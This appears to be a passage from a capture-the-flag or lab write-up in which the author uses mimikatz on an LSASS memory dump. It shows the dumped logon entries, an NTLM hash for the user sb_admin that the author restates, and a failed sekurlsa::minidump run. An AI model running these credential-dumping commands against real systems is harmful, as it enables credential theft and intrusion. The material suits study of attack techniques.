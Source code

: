 ```
        msv :
         [00000003] Primary
         * Username : sb_admin
         * Domain   : WIN-07QUV32RIAR
         * NTLM     : b381519f1f1f330c4301c4be59ac0d62
         * SHA1     : c55bfa8fa09760919fdeb0c2f5bb5a022c926903
        tspkg :
        wdigest :
         * Username : sb_admin
         * Domain   : WIN-07QUV32RIAR
         * Password : (null)
        kerberos :
         * Username : sb_admin
         * Domain   : WIN-07QUV32RIAR
         * Password : (null)
        ssp :
        credman :

...

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-07QUV32RIAR$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2/20/2020 10:01:46
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WIN-07QUV32RIAR$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : win-07quv32riar$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :
```

*Output truncated*

The NTLM hash for the user is `b381519f1f1f330c4301c4be59ac0d62`. For some reason, there were a lot of `(null)` entries like the last one.

*Note:* This is the output given if the decryption failed:

```
> .\mimikatz.exe "sekurlsa::minidump out"

  .#####.   mimikatz 2.2.0 (x64) #18362 Jan  1 1970 00:00:00
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # sekurlsa::minidump out
Switch to MINIDUMP : 'out_swapped'

mimikatz # sekurlsa::LogonPasswords
Opening : 'out_swapped' file for minidump...
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)
```
